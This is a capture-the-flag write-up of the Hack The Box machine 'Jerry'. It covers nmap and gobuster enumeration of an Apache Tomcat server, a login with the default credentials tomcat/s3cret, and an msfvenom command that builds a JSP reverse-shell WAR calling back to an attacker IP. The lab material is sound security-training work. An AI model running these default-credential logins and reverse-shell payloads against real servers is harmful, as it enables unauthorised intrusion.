

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/window-boxes/jerry-easy
---

# ✅ Jerry (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Default Credential

**System Vulnerable:** 10.10.10.95

**Vulnerability Explanation:** The machine is misconfigured on set the default credential which could allow us to login and deploy reverse shell payload and gain access on the machine.

**Privilege Escalation Vulnerability:** N/A

**Vulnerability Fix:** Be aware of Default Credentials and Least privilege User.

**Severity:** Critical

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.95 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-21 05:19 EST
Stats: 0:00:53 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Nmap scan report for 10.10.10.95
Host is up (0.042s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

## Enumeration

### Port 8080 Apache-Coyote/1.1

by going through port 8080, we see a Tomcat webpage.

.png>)

Let find hidden directory with gobuster.

```
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/21 05:24:44 Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/] 
           
===============================================================
2021/11/21 05:27:58 Finished
===============================================================
```

On /manager, it requires username and password to login. By searching on google, we can see a [list of credentials](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) and we can try all of them.

.png>)

We found a valid one is **tomcat / s3cret.**

.png>)

## Exploitation

On the application, we found we could upload file to deploy it which we could generate reverse shell and upload to the application.

.png>)

```
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=4444 -f war > shell.war                                                                                                1 ⨯
Payload size: 1082 bytes
Final size of war file: 1082 bytes
```

.png>)

Let start our netcat listener on port 4444 and execute the shell.

.png>)

